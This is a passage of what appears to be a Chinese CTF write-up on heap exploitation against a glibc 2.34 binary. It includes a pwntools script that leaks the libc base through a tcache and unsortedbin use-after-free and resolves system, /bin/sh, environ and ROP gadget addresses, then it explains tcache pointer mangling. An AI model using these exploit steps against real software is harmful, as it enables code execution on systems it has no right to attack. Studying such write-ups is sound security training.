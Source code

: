    ![image-20240715210305328](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152103410.png)

   ![image-20240715210326138](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152103234.png)

4. 可以看到漏洞给到额很明显，程序开了PIE保护，且**无法泄漏程序**的基地址，只能在**泄漏libc基地址**上下功夫，通过填满tcache，将chunk放入unsortedbin获取main_arena地址，进而获取libc基地址：

   ![image-20240715210423867](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152104981.png)

### 利用：

1. 先填满tcache，利用UAF获取main_arena地址，计算出后续要使用的地址：

   * 由于glibc-2.34中没有 **maloc_hook** 和 **free_hook** 这两个符号，所以考虑泄漏environ上的栈地址，进而覆盖返回值挟持程序流程。
   * 由于程序加载的基地址无法得到，所以ROPgadget在程序中查普通的ROP不起作用，只能在泄漏完libc基地址后，**在libc中search查找能拼凑的pop_rdi_ret片段地址**。
   * system的地址和str_bin_sh是ROP链必须的。

   ```python
   # 溢出进unsortedbin,多申请一个,防止释放的chunk合并到TOP chunk
   for i in range(9):
       add()
   for i in range(7):
       free(i)
   # debug()
   #泄漏libc基地址
   free(7)
   show(7)
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = 0x1F2C60
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
    
   #计算pop_rdi_ret、system、bin_sh地址
   system_addr = libc_base+libc.sym["system"]
   sh_addr = libc_base + next(libc.search(b"/bin/sh"))
   environ_addr = libc_base+libc.sym["environ"]
   pop_rdi_ret = libc_base + next(libc.search(asm('pop rdi;ret;')))
   success("system_addr==>"+hex(system_addr))
   success("environ_addr==>"+hex(environ_addr))
   success("bin_sh_addr==>"+hex(sh_addr))
   success("pop_rdi_ret==>"+hex(pop_rdi_ret))
   ```

   ![image-20240715211338249](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152113457.png)

2. 修改tcache的next指针，实现任意地址分配chunk，但是由于glibc-2.34版本较高，tcache的next指针会有一个加密过程：(当前next指针地址>>>12)^(要指向的下一个chunk地址) ， 第一个进入tcache的**chunk下一个chunk地址**为0。（注意进入tcache时链表采用的是**头插法**）

   进入gdb调试：
